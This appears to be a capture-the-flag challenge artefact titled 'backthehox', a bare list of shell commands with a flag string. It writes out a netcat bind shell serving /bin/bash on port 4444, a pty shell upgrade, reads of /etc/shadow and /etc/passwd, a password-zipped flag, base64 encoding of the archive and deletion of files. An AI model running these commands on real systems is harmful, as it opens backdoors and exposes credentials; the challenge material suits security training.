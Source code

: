 # backthehox

zip data.zip flag.txt -P `cat /tmp/.secret_password`

echo AFNOM{Ju5t_us3_SSH} > flag.txt

nc.traditional -lkp 4444 -e /bin/bash

echo MySuperSecretPass > /tmp/.secret_password

python3 -c 'import pty; pty.spawn("/bin/bash")'

```
python3 -c 'import pty; pty.spawn("/bin/bash")'

pwd

whoami

ls

ls -al

cat /etc/shadow

cat /etc/passwd

zip data.zip flag.txt -P `cat /tmp/.secret_password`

rm /tmp/.secret_password

unzip data.zip

cat data.zip | base64

rm data.zip
```